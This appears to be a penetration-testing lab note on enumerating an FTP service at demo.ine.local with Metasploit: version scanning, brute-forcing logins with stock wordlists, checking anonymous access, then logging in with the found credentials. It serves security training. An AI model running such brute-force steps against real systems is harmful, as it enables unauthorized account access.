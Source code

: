 
# FTP Enumeration using Metasploit

This note explains how to enumerate FTP services using Metasploit modules.

## Step 1: Start msfconsole

```bash
msfconsole
```

## Step 2: Check FTP service version

Use the `ftp_version` scanner to detect the FTP server version.

```bash
use auxiliary/scanner/ftp/ftp_version
set RHOSTS demo.ine.local
run
```

📌 **Result example:** The server is running `ProFTPD 1.3.5a`

---

## Step 3: Brute-force FTP login

We use `ftp_login` to try to guess credentials.

```bash
use auxiliary/scanner/ftp/ftp_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

📌 **Example result:** Found credentials: `sysadmin:654321`

---

## Step 4: Check for anonymous login

```bash
use auxiliary/scanner/ftp/anonymous
set RHOSTS demo.ine.local
run
```

📌 If anonymous login is **not allowed**, you'll see: `Login failed`.

---

## Step 5: Login via FTP manually

Now that we have valid credentials, login to the FTP server:

```bash
ftp demo.ine.local
```

Then enter:

- Username: `sysadmin`
- Password: `654321`

You should be logged in and able to use commands like `ls`, `get`, etc.

---

## Summary

- We scanned the FTP service for version info.
- Performed a brute-force to get credentials.
- Checked for anonymous login.
- Logged in manually using found credentials.
